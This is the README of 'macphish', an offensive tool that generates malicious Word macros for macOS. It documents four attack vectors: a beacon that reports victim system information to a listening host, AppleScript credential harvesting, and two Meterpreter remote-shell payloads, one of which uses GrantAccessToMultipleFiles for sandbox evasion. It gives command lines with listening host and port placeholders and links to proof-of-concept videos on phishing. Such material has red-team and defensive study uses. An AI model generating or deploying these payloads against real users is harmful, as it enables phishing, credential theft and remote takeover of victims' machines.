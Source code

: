 # macphish
Office for Mac Macro Payload Generator
![macphish](macphish-alpha.png?raw=true "macphish")

## Attack vectors
There are 4 attack vectors available:
* beacon
* creds
* meterpreter
* meterpreter-grant

For the 'creds' method, macphish can generate the Applescript script directly, in case you need to run it from a shell. 

### beacon
On execution, this payload will signal our listening host and provide basic system information about the victim. The simplest way of generating a beacon payload is:
```
$./macphish.py -lh <listening host> 
```
By default, it uses curl but other utilities (wget, nslookup) can be used by modifying the command template. 

### creds
```
$./macphish.py -lh <listening host> -lp <listening port> -a creds
```
### meterpreter
The simplest way of generating a meterpreter payload is:
```
$./macphish.py -lh <listening host> -lp <listening port> -p <payload> -a meterpreter 
```
### meterpreter-grant
The generate a meterpreter payload that calls GrantAccessToMultipleFiles() first:
```
$./macphish.py -lh <listening host> -lp <listening port> -p <payload> -a meterpreter-grant
```

For meterpreter attacks, only python payloads are supported at the moment. 

## Usage
See https://github.com/cldrn/macphish/wiki/Usage

## PoCs
* [Sandbox evasion using GrantAccessToMultipleFiles in word for mac](https://youtu.be/3F_VdPr-7K8)
* [PoC of Global And Recursive Permissions - Malicious macros for Word in MacOS](https://youtu.be/hSJH5rse4wQ)
* [Meterpreter execution in Office For Mac with macros](https://youtu.be/xXA-n1D1Fqw)
* [Credential Harvesting (Phishing) with Word macros in macOS](https://youtu.be/p0qfg0WI3sE)
